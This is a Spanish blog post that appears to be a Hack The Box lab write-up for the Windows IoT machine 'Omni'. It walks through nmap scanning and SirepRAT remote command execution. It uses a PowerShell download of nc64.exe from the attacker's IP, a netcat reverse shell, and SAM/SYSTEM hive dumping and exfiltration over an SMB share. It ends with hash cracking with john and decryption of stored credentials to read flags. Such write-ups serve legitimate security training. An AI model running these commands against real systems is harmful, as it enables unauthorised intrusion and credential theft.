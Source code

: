 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Omni               |
| Os                     | Other              |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.204       |


## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Omni/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.204
```

![nmap 1](/assets/images/Omni/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.204 -oG allPorts
```

![nmap2](/assets/images/Omni/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p135,5985,8080,29817,29819,29820 10.10.10.204 -oN targeted
```

![nmap3](/assets/images/Omni/nmap3.png)

Dentro de la cabecera del html de la pagina, vemos que hay un windows content, si buscamos un exploit de este, encontramos una herramienta en <a href="https://github.com/SafeBreach-Labs/SirepRAT.git"> github</a> con la que haremos varias cosillas.

```s
python3 setup.py install

python SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

![nmap3](/assets/images/Omni/etc_hosts.png)

```s
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c ping 10.10.14.29" --v
```

Escuchamos la traza con:

```s
tcpdump -i tun0 icmp -n
```

```s
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "powershell" --args "-c iwr -uri http://10.10.14.29/nc64.exe -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe" --v

#Ejecutamos con
python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.29 4444" --v
```

La flag no se encuentra donde normalmente la buscamos, asi que buscaremos con un:

```s
dir /r /s user.txt
```

La bandera esta ya localizada. Pero esta en formato seguro la flag, asi que lo pasaremos a un formato legible.

```s
reg save HKLM\system system.backup

reg save HKLM\sam sam.backup
```

```s
#No montamos un servidor smb
impacket-smbserver smbfolder $(pwd) -smb2support -username rebick -password rebick123

#En la maquina windows descargamos el archivo con 
net use x: \\10.10.14.29\smbFolder /user:rebick rebick123
```

Podremos ahora listar los archivos en x:\ y copiar directamente los archivos.

Ahora sacaremos en un formato que podremos crackear estos hashes con:

```s
impacket-secretsdump -sam sam -system system LOCAL 
```

El output lo guardamos en un archivo llamado hashes y lo intentaremos crackear 

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=NT
```

![Password cracked1](/assets/images/Omni/pass_crack1.png)

Y ahora tenemos acceso a la web app con estas credenciales

![Web app access](/assets/images/Omni/webapp_access.png)

Intentamos ahora meter el comando que ejecuta la reverse shell pero con el usuario app.

![nc for app](/assets/images/Omni/nc_for_app.png)

![Success reverse app](/assets/images/Omni/reverse_success.png)

Ahora si podremos leer la flag si hacemos un

```s
powershell -c "$cred = Import-CliXml -Path root.txt; $cred.getNetworkCredential() | Format-list *" 
```

Con el mismo comando podemos leer las credenciales para admin en el archivo iot-admin.xml y quizas hacer lo mismo desde el navegador.

AHora ya pudimos encontrar directamente la flag de root.

![Root path](/assets/images/Omni/root_path.png)

![Success reverse app](/assets/images/Omni/powned.png)
